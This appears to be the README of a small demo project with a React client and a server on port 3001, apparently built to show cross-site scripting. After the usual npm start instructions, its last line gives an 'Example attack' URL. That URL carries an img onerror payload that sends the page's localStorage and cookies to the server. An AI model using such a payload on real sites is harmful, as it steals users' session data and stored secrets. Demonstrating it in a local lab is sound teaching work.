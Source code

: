 This project was bootstrapped with [Create React App](https://github.com/facebook/create-react-app).

## Available Scripts

In the project directory server, you can run:

### `npm start`

Runs the app in the development mode.<br />

The server listens on port 3001


In the project directory client, you can run:

### `npm start`

Runs the app in the development mode.<br />
Open [http://localhost:3000](http://localhost:3000) to view it in the browser.

The page will reload if you make edits.<br />
You will also see any lint errors in the console.

Example attack: http://localhost:3000/?text=<img src onerror="fetch(`http://localhost:3001?localStorage=${JSON.stringify(localStorage)}&cookie=${JSON.stringify(document.cookie)}`).then(data => data.json()).then(data => console.log('server response', data))" />

